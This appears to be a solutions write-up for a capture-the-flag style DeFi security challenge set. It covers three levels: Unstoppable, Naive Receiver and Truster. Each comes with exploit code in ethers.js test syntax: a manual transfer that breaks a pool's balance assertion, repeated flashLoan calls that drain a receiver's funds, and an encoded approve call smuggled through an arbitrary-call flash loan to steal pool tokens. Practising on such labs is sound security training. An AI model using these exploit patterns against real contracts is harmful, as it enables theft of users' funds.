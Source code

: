 SOLUTIONS: 


#1- unstoppable lender:

 - simply transfer the tokens manually from the attacker to the lending pool with 
        await this.token.approve(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
        await this.token.transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);

        because the lending pool keeps track of the amount poolBalance and updates it only when tokens are deposiited via depositTokens() function, doing it manually will break the assertion 
         assert(poolBalance == balanceBefore);



#2 Naive Reciever- 
            in the lending pool contract, the flashlona function does not require that the borrower be the person who called the function. So we just call the flashLan function 10 times with the user's flashloanReceiver contract as the borrower. this will take 1 eth fee each time until the account is drained 

            for(let i = 0;i<10;i++){
                await this.pool.flashLoan(this.receiver.address,ethers.utils.parseEther('1'))
            }
        
        to do it in a single tx, coulddeploy a smart contract which usess a while loop to keep draining until userbalance < fee

        #3) Truster
        the vulnerability is the line
         'target.functionCall(data);'
         the target address could be the DVT erc20, and the data payload would be the token approve function, 
         which would approve attacker to spend funds in the pool. there will be no actual loan/borrow amount, 
         just this approve function, allowing the attacker to spend the pools tokens, and we can send the tokens to or address after this fucntion call is complete. 

         Solution: 
         
         let ABI = [
            "function approve(address spender, uint256 amount)"
        ];

        let iface = new ethers.utils.Interface(ABI)

        const data = iface.encodeFunctionData("approve", [attacker.address, TOKENS_IN_POOL])
        await this.pool.flashLoan(
            0,
            attacker.address,
            this.token.address,
            data
        )
        await this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL)
